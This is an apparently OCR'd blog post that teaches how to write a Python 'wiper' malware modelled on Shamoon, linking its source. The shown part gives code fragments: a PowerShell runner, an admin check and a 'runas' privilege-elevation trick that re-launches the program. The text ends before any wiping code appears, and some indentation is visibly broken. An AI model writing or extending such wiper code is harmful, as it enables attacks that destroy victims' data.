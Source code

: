```yaml
---
title: Python and Malware Writing a simple, Wiper malware
layout: default
tags: [malware development]
blog_post: true
---
```


# Introduction  
In this article, I’ll describe how to write a malware, Please notice this is not a “true” malware this is only has to show you the basics and even how easy to be written, Probably python is not the best choice at all, It’s an interpreted language and so it needs an interpreter to be executed so to write a malware probably other languages that can work to a lower level and that can be compiled are probably a better choice, malware is often designed to be small, stealthy, have low memory footprint, and use limited processing power, So it’s very common to see malware written in C & Assembly.  
  
# Overview  
At first, I will show its code then I will describe generally how this malware works,  The techniques you gone see in this malware are taken from a public malware samples, Notice that it is not “true” malware It was simply something I consider trying after reading an article on the infemous Shamoon Wiper know as Disttrack, So why not writing a simple python wiper.  [source code](https://github.com/0xf00I/SkyWiper/blob/main/src/main.py)  
  

```python
requests.packages.urllib3.disable_warnings() # Disable ssl Warning
startupinfo = subprocess.STARTUPINFO() #type: ignore
drives = win32api.GetLogicalDriveStrings()
kernel32 = ctypes.WinDLL('kernel32')  

def RunPwsh(code):
    p = subprocess.run(['powershell', code], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, shell=True)
    return p.stdout.decode()

def IsAdmin():
    try:
        return ctypes.windll.shell32.IsUserAnAdmin()
            except:
                    return False
```
  
 
First checks if it has Administrator privileges, if it doesn’t it runs `RunAsAdmin` using the ShellExecute trick `runas` to elevate privileges, and exits immediately  

```python
def RunAsAdmin():
ctypes.windll.shell32.IsUserAnAdmin() or (ctypes.windll.shell32.ShellExecuteW(None, "runas", sys.executable, " ".join(sys.argv), None, 1) > 32, sys.exit())

def Is64Bit():
    return platform.machine().endswith('64')
```
  Re-run the program with admin rights  
